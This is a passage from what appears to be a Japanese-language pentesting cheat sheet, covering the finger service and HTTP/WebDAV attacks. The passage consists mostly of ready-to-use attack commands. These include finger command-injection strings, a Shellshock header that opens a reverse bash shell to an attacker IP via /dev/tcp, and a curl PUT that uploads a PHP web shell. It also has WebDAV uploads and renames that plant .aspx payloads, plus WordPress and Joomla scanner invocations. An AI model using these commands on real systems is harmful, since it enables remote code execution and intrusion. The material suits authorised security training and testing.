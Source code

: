 #### Metasploit

```
use auxiliary/scanner/finger/finger_users	
```

#### コマンド実行

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

#### リンク

[HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-finger)

## HTTP/HTTPS

#### ShellShock

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<attcker IP>/<port> 0>&1' <url>
```

#### curl

```bash
https://0xdf.gitlab.io/2019/03/06/htb-granny.html
#使用できるメソッドを調査する
davtest --url <url>
curl -vvv <url>
curl --head -X OPTIONS <url>
curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://[host]/_vti_bin/_vti_aut//shell.php
curl --url <url> -X DELETE


webdav
echo AAAAA > test.txt
curl -X PUT <url>/df.txt -d @test.txt
curl <url>/df.txt
curl -X MOVE -H 'Destination:<url>/AAAAA.aspx' <url>/AAAAA.txt
curl -X PUT http://[host]/met.txt --data-binary @met.aspx
```

#### CMS Scan

```bash
wpscan --url http://symfonos.local/h3l105/ --enumerate p,t,u
wpscan --force update -e --url <URL>
joomscan --ec -u <URL>
```

#### Scan
